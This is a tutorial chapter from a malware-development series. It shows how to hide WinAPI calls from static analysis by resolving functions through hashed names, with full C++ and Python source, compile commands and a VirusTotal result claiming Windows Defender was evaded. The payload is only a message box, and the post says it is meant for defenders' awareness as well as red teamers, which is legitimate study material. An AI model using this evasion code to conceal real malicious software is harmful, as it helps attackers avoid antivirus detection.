





## 39. AV engines evasion techniques - part 5. Simple C++ example.

{width="80%"}    

This section is a result of self-researching another AV evasion trick. An example how to bypass AV engines in simple C++ malware.   

### hashing function names

This is a simple but efficient technique for hiding WinAPI calls. It is **calling functions by hash names** and it's simple and often used in the "wild".    

Let's look all at an example and you'll understand that  it's not so hard.   

### standard calling

Let's look at an example:   

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Compile:    

```bash
i686-w64-mingw32-g++ meow.cpp -o meow.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

and run:    

{width="80%"}    

As expected, it's just a pop-up window.    

Then run `strings`:   
```bash
strings -n 8 meow.exe | grep MessageBox
```

{width="80%"}    

As you can see, the WinAPI function are explicitly read in the basic static analysis and:    

{width="80%"}    

visible in the application's import table.   

### hashing    

Now let's hide the WinAPI function `MessageBoxA` we are using from malware analysts. Let's hash it:    

```python
# simple stupid hashing example
def myHash(data):
    hash = 0x35
    for i in range(0, len(data)):
        hash += ord(data[i]) + (hash << 1)
    print (hash)
    return hash

myHash("MessageBoxA")
```

and run it:    

```bash
python3 myhash.py
```

{width="80%"}    

### practical example

What's the main idea? The main idea is we create code where we find WinAPI function address by it's hashing name via enumeration exported WinAPI functions.   

First of all, let's declare a hash function identical in logic to the python code:    

```cpp
DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}
```

Then, I declared function which find Windows API function address by comparing it's hash:   

```cpp
static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = 
  (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->
    OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
    VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + 
  img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", 
      pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}
```

The logic here is really simple. first we go through the PE headers to the exported functions we need. In the loop, we will look at and compare the hash passed to our function with the hashes of the functions in the export table and, as soon as we find a match, exit the loop:

```cpp
//...
for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
  LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

  if (calcMyHash(pFuncName) == myHash) {
    printf("successfully found! %s - %d\n", 
    pFuncName, myHash);
    return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
  }
}
//...
```

Then we declare prototype of our function:    

```cpp
typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);
```

and `main()`:   

```cpp
int main() {
  HMODULE mod = LoadLibrary("user32.dll");
  LPVOID addr = getAPIAddr(mod, 17036696);
  printf("0x%p\n", addr);
  fnMessageBoxA myMessageBoxA = (fnMessageBoxA)addr;
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

{width="80%"}    

The full source code of our malware is:    

```cpp
/*
 * hack.cpp - hashing Win32API functions. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/22/simple-malware-av-evasion-5.html
*/
#include <windows.h>
#include <stdio.h>

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)(
  (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->
    OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
    VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + 
  img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + 
  img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", 
      pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

int main() {
  HMODULE mod = LoadLibrary("user32.dll");
  LPVOID addr = getAPIAddr(mod, 17036696);
  printf("0x%p\n", addr);
  fnMessageBoxA myMessageBoxA = (fnMessageBoxA)addr;
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}

```

### demo

Let's go to compile our malware `hack.cpp`:   

```bash
i686-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

and run:   

```cmd
.\hack.exe
```

{width="80%"}    

{width="80%"}    

As you can see, our logic is worked!!! Perfect :)

What about `strings`?    

```bash
strings -n 8 hack.exe | grep MessageBox
```

{width="80%"}    

And let's go to see Import Address Table:   

{width="80%"}    

If we delve into the investigate of the malware, we, of course, will find our hashes, strings like `user32.dll`, and so on. But this is just a case study.    

Let's go to upload to VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/d33210e3d7f9629d3465b2a0cec0c490d2254fa1b9a2fd047457bd9046bc0eee/detection](https://www.virustotal.com/gui/file/d33210e3d7f9629d3465b2a0cec0c490d2254fa1b9a2fd047457bd9046bc0eee/detection)    

**So 4 of 65 AV engines detect our file as malicious**    

Notice that we evasion Windows Defender :)   

But what about WinAPI functions in classic DLL injection?   

I will self-research and write in a next post.   

In real malware, hashes are additionally protected by mathematical functions and additionally encrypted.    

> For example [Carbanak](https://en.wikipedia.org/wiki/Carbanak) uses several AV engines evasion techniques, one of them is WinAPI call hashing.

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[pe file format](/tutorial/2021/10/31/windows-shellcoding-3.html)    
[Carbanak](https://en.wikipedia.org/wiki/Carbanak)    
[source code in github](https://github.com/cocomelonc/2022-03-22-malware-av-evasion-5)    
